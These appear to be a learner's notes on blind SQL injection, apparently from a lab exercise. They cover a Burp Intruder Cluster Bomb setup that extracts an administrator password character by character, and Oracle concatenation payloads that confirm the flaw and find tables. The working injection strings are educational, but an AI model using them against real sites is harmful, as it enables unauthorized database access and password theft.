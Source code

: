 - Column_Name_PASSWORD  ---> The Column we are interested to enumerate
	- (Column_Name_PASSWORD,2,1)  ---> 2,1 (2 = character we are trying to guest, 1 = Length of the letter (a) we are trying to guest... (probably always 1.. we guest 1 letter at the time))
- Column_Name                        ---> The Column Name that we are looking to get the variable
- Table_Name                            ---> Table Name that we are interested in (see previous step)
- Column_Name_same...           ---> Same Column Name has the one selected
- administrator                           ---> Variable we are looking to find (True = Default HTML Resp)

- BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	wQzpcksV9nxMDwHH' and (select substring(Column_Name_PASSWORD,§2§,1) from Table_Name where Column_Name='administrator')='§a§'--'
	```
	- Set the attack to Cluster Bomb and load the payloads


## Concatenation Technique

Steps
- Prove parameter is vulnerable
- Find Tables
- Find Column Name ??? (Review)
- Find Variables in a Column
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove the TrackingID is vulnerable
```
' (error) & '' (back to normal)

' || (select '' || '                     ---> Not Working (Try other database synthax)

' || (select '' from dual) || '          ---> oracle database (True)

' || (select '' from dualfiewjfow) || '  ---> error (False)
```

||                         ---> Simply mean to the query that a new query will be made in the same query


Find Table (Try and Errors)
```
' || (select '' from TABLE where rownum =1) || '
```

rownum                ---> Assure it will only output 1 entry (similar to the LIMIT 1 in Equality Check)
TABLE                   ---> Table we are interested to test (If exist)
